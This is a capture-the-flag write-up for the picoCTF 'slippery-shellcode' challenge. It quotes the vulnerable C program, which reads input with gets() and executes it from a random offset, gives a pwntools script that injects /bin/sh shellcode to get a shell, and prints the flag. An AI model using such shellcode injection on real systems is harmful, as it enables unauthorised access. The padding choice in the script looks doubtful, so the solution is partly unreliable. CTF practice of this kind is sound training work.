

# slippery-shellcode

Points : 200

# Question

This [program](vuln) is a little bit more tricky. Can you spawn a shell and use that to read the flag.txt? You can find the program in /problems/slippery-shellcode_6_7cf1605ec6dfefad68200ceb12dd67a1 on the shell server. [Source](vuln.c).

# Solution

same as [handy-shellcode](https://github.com/netanelc305/picoCTF-2019/tree/master/Binary%20Exploitation/handy-shellcode) we need to spawn shell and disply flag.txt contant to get the flag .

by examin the source code we can see that we have random element .

```C
#define BUFSIZE 512
#define FLAGSIZE 128

void vuln(char *buf){
  gets(buf);
  puts(buf);
}

int main(int argc, char **argv){

  setvbuf(stdout, NULL, _IONBF, 0);
  
  // Set the gid to the effective gid
  // this prevents /bin/sh from dropping the privileges
  gid_t gid = getegid();
  setresgid(gid, gid, gid);

  char buf[BUFSIZE];

  puts("Enter your shellcode:");
  vuln(buf);

  puts("Thanks! Executing from a random location now...");

  int offset = (rand() % 256) + 1;
  
  ((void (*)())(buf+offset))();


  puts("Finishing Executing Shellcode. Exiting now...");
  
  return 0;
}
```

This time we only need to overflow enough before inject the shellcode and we can spawn the shell  - [script](script.py)

```python
from pwn import *

proc = process('vuln') 
payload = 'a'*127+asm(shellcraft.i386.linux.sh())
proc.sendline(payload)
proc.interactive()
```




# Flag
picoCTF{sl1pp3ry_sh311c0d3_5a0fefb6}

